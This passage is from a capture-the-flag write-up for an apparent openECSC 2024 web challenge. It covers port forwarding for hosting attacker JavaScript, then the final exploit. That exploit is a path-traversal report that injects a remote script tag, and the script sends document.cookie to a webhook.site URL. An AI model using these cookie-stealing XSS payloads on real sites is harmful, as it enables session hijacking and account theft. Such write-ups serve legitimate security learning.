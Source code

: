 But there's one step missing: the router is reachable from the outside world, but the server hosted on the device is only reachable within the local network. Somehow, we need to tell the router that when a request is received on a certain port, that request should be handled by the Python server.

[Port forwarding](https://en.wikipedia.org/wiki/Port_forwarding) allows us to do this. The procedure for enabling it varies greatly depending on the router manufacturer.

![Example of port forwarding](/writeups/openecsc-2024/perfect_shop/img/PortForwarding.png)

As for the protocol, it's important to select TCP/UDP or similar if available; otherwise, it's better to create a port forwarding table for each protocol.

The WAN port is the port that will be reachable from the outside, while the LAN port is the port that will receive packets from the outside. Essentially, it's the one chosen when the HTTP server was set up in Python. To avoid errors, I would recommend using the same LAN and WAN port (internal and external) where possible.

The destination IP is the local IP of the device used, i.e., the one I obtained with `ifconfig`, or `ipconfig` in Windows.

This way, when the router receives a request on the selected WAN port, the packet will be forwarded to the local IP and port entered in the port forwarding table.

To test that everything has been done correctly, simply visit `[public IP of the router]:[WAN port]` from any device, preferably not connected to the same local network as the server hosting the exploit (e.g., a phone with mobile data).

### Final Payload
Let's make it happen.

To recap:

- The finalized payload to include the remote JavaScript code is `<script src="//[IP]:[PORT]/x.js"></script>`.
- The code present on `x.js` is `window.location = "https://webhook.site/[REDACTED]?c=" + document.cookie;`.
- All that's left is to send the bot a report like this:

![Final Payload in Burp](/writeups/openecsc-2024/perfect_shop/img/FinalBurp.png)

`id=1/../../search%3flol%3d"/admin"%26q%3d<script%2bsrc%253d"http%253a//10.10.201.233%253a1337/x.js"></script>&message=/admin`, which decodes to `id=1/../../search?lol="/admin"&q=<script src="http://10.10.201.233:1337/x.js"></script>&message=/admin`

To anyone who managed to read this far, thank you from the bottom of my heart ❤️

For any feedback, you can reach me out on Discord: `titto_caru`